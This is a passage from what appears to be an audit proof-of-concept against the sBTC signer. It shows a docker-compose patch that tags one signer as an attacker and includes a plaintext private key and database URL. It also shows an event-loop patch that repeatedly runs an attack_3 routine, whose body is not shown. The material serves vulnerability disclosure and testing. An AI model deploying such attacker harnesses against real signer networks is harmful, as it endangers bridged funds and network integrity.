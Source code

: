          // Open a connection to the signer db.
    ```
4.  Patch `docker/docker-compose.yml`, add attacker tag

    ```diff
           - postgres-3
         environment:
           <<: *sbtc-signer-environment
    +      AUDIT_THIS_SIGNER_IS_ATTACKER: true
           SIGNER_SIGNER__DB_ENDPOINT: postgresql://postgres:postgres@postgres-3:5432/signer
           SIGNER_SIGNER__PRIVATE_KEY: 3ec0ca5770a356d6cd1a9bfcbf6cd151eb1bd85c388cc00648ec4ef5853fdb7401
           SIGNER_SIGNER__P2P__SEEDS: tcp://sbtc-signer-1:4122,tcp://sbtc-signer-2:4122
    ```
5.  Patch `signer/src/network/libp2p/event_loop.rs`, add attack action

    ```diff
             }
         };
     
    +    let attacker = async {
    +        // waiting for sBTC contract deployment
    +        loop {
    +            tokio::time::sleep(Duration::from_secs(10)).await;
    +            let contract = crate::stacks::contracts::SMART_CONTRACTS[0];
    +            let stacks_client = ctx.get_stacks_client();
    +            let deployed = contract.is_deployed(&stacks_client, &ctx.config().signer.deployer).await;
    +            if deployed.is_ok_and(|x| x) {
    +                break;
    +            }
    +        }
    +
    +        let is_attacker = ctx.config().signer.audit_this_signer_is_attacker.is_some_and(|x| x);
    +        loop {
    +            tokio::time::sleep(Duration::from_secs(2)).await;
    +            if !is_attacker { // sleep forever if the signer is not an attacker
    +                tokio::time::sleep(Duration::from_secs(std::u64::MAX)).await;
    +            } else {
    +                let res = attack_3(ctx).await;
    +                tracing::info!("@audit; attack res: {:?}", res);
    +            }
    +        }
    +    };
     
         tokio::select! {
             _ = term.wait_for_shutdown() => {
                 tracing::info!("libp2p received a termination signal; stopping the libp2p swarm");
             },
             _ = poll_outbound => {},
             _ = poll_swarm => {},
             _ = log => {},
    +        _ = attacker => {},
         }
     